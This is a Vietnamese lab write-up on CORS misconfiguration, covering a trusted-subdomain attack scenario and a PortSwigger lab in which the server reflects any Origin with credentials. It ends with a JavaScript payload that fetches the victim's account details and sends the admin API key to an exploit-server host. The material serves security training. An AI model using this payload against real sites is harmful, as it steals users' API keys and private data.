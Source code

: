 `Access-Control-Allow-Credentials: true`


Kẻ tấn công có thể tiến hành một cuộc tấn công như sau:  
Kịch bản:

-   Victim thực hiện HTTP request bình thường
-   Attacker đưa vào origin một chuyển hướng tới http://trusted-subdomain.vulnerable-website.com
-   Trình duyệt victim tuân theo chuyển hướng
-   Kẻ tấn công chặn các HTTP request và trả về phản hồi giả mạo chứa cả **CORS** request:  
    [https://vulnerable-website.com](https://vulnerable-website.com/)
-   Trình duyệt victim đưa ra CORS request, bao gồm cả origin là http://trusted-subdomain.vulnerable-website.com

Ứng dụng cho phép request vì đây là origin đã được đưa vào `whitelist`. Dữ liệu nhạy cảm được yêu cầu sẽ trả về trong phản hồi.

Cuộc tấn công này có hiệu quả ngay cả khi website sử dụng HTTPS, không có endpoint HTTP và tất cả cookie được gắn flags secure.

 # **1. Lab: CORS vulnerability with basic origin reflection**
>Trang web này có cấu hình CORS không an toàn ở chỗ nó tin cậy mọi nguồn gốc.
Để giải quyết bài thí nghiệm, hãy tạo một số JavaScript sử dụng CORS để truy xuất khóa API của quản trị viên và tải mã lên máy chủ khai thác của bạn. Lab sẽ được giải quyết khi bạn gửi thành công khóa API của quản trị viên.
Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: `wiener:peter`

>Đăng nhập vào `wiener`, tại `/my-account` ta có thể thấy được API Key của tài khoản: ![image](https://hackmd.io/_uploads/Sy0kFaJ8C.png)

>Xem lại request và respone, thấy rằng API Key được hiển thị từ 1 hàm JS, mà hàm JS truy cập vào `/accountDetails` để fetch api: ![image](https://hackmd.io/_uploads/Bkp_Ya1U0.png)

>Tồn tại thêm 1 request `GET /accountDetails` sẽ dựa vào session tương ứng để lấy dữ liệu người dùng từ server: ![image](https://hackmd.io/_uploads/Bka3FT1UR.png)

>Ta thấy trong respone có tồn tại `Access-Control-Allow-Credentials: true` => server sử dụng CORS. Thử thêm 1 Origin bất kì thì server vẫn xử lí thành công, đồng thời có thêm `Access-Control-Allow-Origin: http://ducanh.com`
>![image](https://hackmd.io/_uploads/SJN45p1IC.png)

>Có thể kết luận rằng server không thực hiện chặn request từ nguồn lạ, mà nó tin tưởng tất cả các request tới từ tất cả domain khác nhau!

>Ta tạo ra 1 payload từ hàm JS trang web sử dụng như sau:
```
<script>
    fetch('//<LAB-ID>.web-security-academy.net/accountDetails', {
        credentials:'include'
    })
    .then(r => r.json())
    .then(j => fetch('//exploit-<EXPLOIT-ID>.exploit-server.net/?apiKey=' + j.apikey))
</script>
```
